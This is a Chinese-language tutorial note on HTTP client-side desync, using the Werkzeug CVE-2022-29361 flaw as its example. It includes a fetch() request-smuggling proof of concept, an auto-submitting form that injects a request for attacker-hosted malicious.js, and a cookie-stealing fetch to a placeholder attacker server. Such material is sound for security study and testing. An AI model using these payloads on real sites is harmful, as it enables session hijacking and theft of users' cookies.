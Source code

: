 ## HTTP 浏览器不同步的识别与利用 (Identification & Exploitation)

### 识别 (Identification - CVE-2022-29361 示例)

*   **漏洞背景:** Werkzeug v2.1.0 (一个 WSGI Web 应用库) 在特定配置下（启用线程或进程选项时）处理 `Keep-Alive` 连接时存在缺陷，允许请求体中的数据污染后续请求。
*   **测试方法 (使用 `fetch` API):** `fetch` API 允许在请求之间保持连接（如果服务器支持 `Keep-Alive`）。
    ```javascript
    fetch('http://<vulnerable_server_ip>:<port>/', {
        method: 'POST',
        body: 'GET /redirect HTTP/1.1\r\nFoo: x', // 走私一个GET到不存在的/redirect
        mode: 'cors', // 'cors'模式有时用于观察错误或避免自动重定向
    });
    ```
    *   **`method: 'POST'`**: 外层使用POST请求。
    *   **`body: 'GET /redirect HTTP/1.1\r\nFoo: x'`**: 在POST请求体中嵌入一个GET请求。`Foo: x` 是一个任意头部，确保请求格式正确。
    *   **预期结果:** 如果漏洞存在，第一次执行此 `fetch` 后，服务器的连接队列中会留下 `GET /redirect ...`。当浏览器（或下一次 `fetch`）再次访问该服务器的任何路径（例如刷新页面或访问 `/`）时，服务器会优先处理 `/redirect`。如果 `/redirect` 不存在，浏览器可能会显示一个 404 错误页面，而不是预期的页面内容。这就指示了不同步的发生。

### 利用 (Exploitation)

#### 1. 控制受害者浏览器行为

通过注入特定的请求，可以强制受害者的浏览器导航到攻击者选择的页面，或者执行某些 GET/POST 操作。

#### 2. 漏洞串联 XSS (Chaining with XSS)

*   **场景:** 如果可以直接将恶意 JavaScript 注入到后续被处理的“幽灵”请求的响应中，或者通过“幽灵”请求将受害者重定向到一个包含 XSS payload 的页面。
*   **方法 (使用表单注入):**
    1.  **构造恶意表单 (攻击者控制的页面或注入到目标网站):**
        ```html
        <form id="smuggleForm" action="http://<vulnerable_target_site>/"
            method="POST"
            enctype="text/plain">  <!-- text/plain 避免对name中的特殊字符编码 -->
        <textarea name="GET http://<attacker_controlled_server_ip>:<port>/malicious.js HTTP/1.1
        AAA: A">placeholder</textarea> <!-- name属性会被服务器错误地解析为请求的一部分 -->
        <button type="submit">Submit</button>
        </form>
        <script> document.getElementById('smuggleForm').submit(); </script>
        ```
        *   当受害者访问包含此表单的页面并自动提交时，会向易受攻击的目标站点发送一个 `POST` 请求。
        *   `textarea` 的 `name` 属性值（包含 `GET http://<attacker_ip>/malicious.js ...`）会被错误地注入到连接队列中。
    2.  **攻击者恶意服务器 (`<attacker_controlled_server_ip>:<port>`):**
        *   `/malicious.js` (或根路径 `/`) 提供一个恶意的 JavaScript payload，例如窃取 Cookie:
            ```javascript
            // 示例: attacker_server/malicious.js 或 / 路径的响应体
            fetch('http://<attacker_collection_server_ip>:<collection_port>/steal?cookie=' + document.cookie);
            ```
    3.  **受害者行为:** 当受害者提交表单后，其浏览器与目标站点的连接被污染。当受害者浏览器下次通过该连接请求目标站点的任何资源时，服务器会优先处理被注入的 `GET http://<attacker_ip>/malicious.js`。
    4.  **结果:** 受害者的浏览器会请求并执行来自攻击者服务器的 `malicious.js`，导致 Cookie 被盗。
